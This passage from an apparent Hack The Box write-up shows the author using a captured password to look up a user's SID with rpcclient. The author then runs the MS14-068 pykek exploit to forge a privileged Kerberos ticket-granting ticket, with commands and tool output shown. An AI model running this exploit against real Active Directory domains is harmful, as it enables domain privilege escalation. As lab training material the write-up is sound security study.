 <figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

With James's password I look up the SID for his user

```
┌──[Sun Nov  6 08:11:31 PM CST 2022]-[wlan0:192.168.1.153 tun0:10.10.16.2]-[TheScriptKid]-[/usr/share/windows-kernel-exploits/MS14-068/pykek]
└──# rpcclient $ip -U james                                                                                                                              130 ⨯
Password for [WORKGROUP\james]:
rpcclient $> lookupnames james
james S-1-5-21-4220043660-4019079961-2895681657-1103 (User: 1)
```

I then proceed to create a privileged ticket granting ticket

```
┌──[Sun Nov  6 08:12:58 PM CST 2022]-[wlan0:192.168.1.153 tun0:10.10.16.2]-[TheScriptKid]-[/usr/share/windows-kernel-exploits/MS14-068/pykek]
└──# python2 ./ms14-068.py -u james@htb.local -p 'J@m3s_P@ssW0rd!' -d $ip -s S-1-5-21-4220043660-4019079961-2895681657-1103
  [+] Building AS-REQ for 10.129.14.169... Done!
  [+] Sending AS-REQ to 10.129.14.169... Done!
  [+] Receiving AS-REP from 10.129.14.169... Done!
  [+] Parsing AS-REP from 10.129.14.169... Done!
  [+] Building TGS-REQ for 10.129.14.169... Done!
  [+] Sending TGS-REQ to 10.129.14.169... Done!
  [+] Receiving TGS-REP from 10.129.14.169... Done!
  [+] Parsing TGS-REP from 10.129.14.169... Done!
  [+] Creating ccache file 'TGT_james@htb.local.ccache'... Done!
```
